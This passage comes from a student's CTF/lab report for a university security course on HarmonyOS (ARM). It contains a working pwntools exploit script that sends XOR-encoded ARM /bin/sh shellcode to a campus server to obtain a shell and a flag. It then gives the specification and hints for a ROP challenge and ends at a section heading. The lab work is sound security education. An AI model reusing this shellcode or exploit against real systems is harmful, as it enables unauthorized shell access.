 - getshell后，运行 `/etc/flag.exe` 程序，得到flag如下

  ![image-20210708142512082](3180105507_唐顺政_final报告.assets/image-20210708142512082.png)

### 实验脚本

```python
from pwn import *
# context.log_level = 'debug' 

sh = remote('10.15.201.97', 10000)

n = []
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68' + b'\x65\x6c\x6c'
for i in shellcode[:]:
	n.append(i)
for i in range(len(n)):
	n[i] = n[i] ^ 0xAA
shellcode = bytes(n)

sh.recvuntil("give me something to get shell!")
sh.sendline(shellcode)
sh.sendline("./etc/flag.exe 3180105507")
sh.interactive() 
```

## 02 - HarmROP

**分值**: 35分
**题目说明**: 本题在arm架构下的鸿蒙系统中，考察同学对于ROP的理解与使用，本题的程序中提供了一些gift，妥善使用提供的信息，完成ROP攻击吧！

题目环境位于: `ip: 10.15.201.97, port: 10001` （校内网）

**题目要点**:

- 基本的ARM架构函数调用处理及相关指令的归纳（15分）
- 对于题目的分析（5分）
- getshell，并获取flag（15分）

> 注: getshell后请同以前作业一样运行 `/etc/flag.exe` 程序

**hint**:
虽然是不同的架构，但是攻击的流程大同小异，使用旧的知识在新的平台上大展拳脚吧。
了解一个架构最好的方式，就是**调试**，可以选择魔改题目提供的平台，也可以自己搭建类似的环境。

### ARM架构函数调用处理及相关指令归纳
